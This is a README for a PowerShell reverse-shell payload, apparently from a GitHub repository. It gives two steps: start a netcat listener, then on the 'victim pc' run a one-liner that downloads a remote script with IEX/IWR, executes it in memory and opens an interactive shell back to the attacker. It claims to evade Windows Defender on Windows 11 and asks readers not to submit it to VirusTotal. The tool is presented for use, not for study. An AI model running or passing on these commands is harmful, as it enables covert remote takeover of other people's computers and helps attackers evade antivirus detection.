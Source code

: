 <img src="https://img.shields.io/badge/PowerShell-%E2%89%A5%20v3.0-blue">

# INSTRUCTIONS : - 
<br>
 <br> 
1.) Run [nc -nlvp 'port'] on your terminal to start up a listener.
<br>
 <br> 
2.) Open powershell on the victim pc and type:-  <br> 
 <br> 
IEX (IWR 'https://raw.githubusercontent.com/anonymous300502/powershell_payload/main/Invoke-DopeShell.ps1' -UseBasicParsing) | Invoke-DopeShell "IP" "PORT". <br> Enter the IP ADDR and PORT of YOUR machine from where you are listening.

## This will spawn a interactive shell with the target pc and run in memory to evade AV 
### Currently undetectable by the latest updated version of windows defender on Win 11 ( last tested on 17:00 IST June 13th 2024) 

Please dont upload the script on virus total :) 


# SCREENSHOTS:-
<br>
## Listener - 
<br>
<img src="https://github.com/anonymous300502/powershell_payload/blob/main/listener.png.png">
<br>
## Spawned Connection without alerting Windows Defender -
<br>
<img scr="spawned_interactive_shell.png.png">
<br>
## Victim Pc - 
<br>
<img src="https://github.com/anonymous300502/powershell_payload/blob/main/victimpc.png.png">
<br>
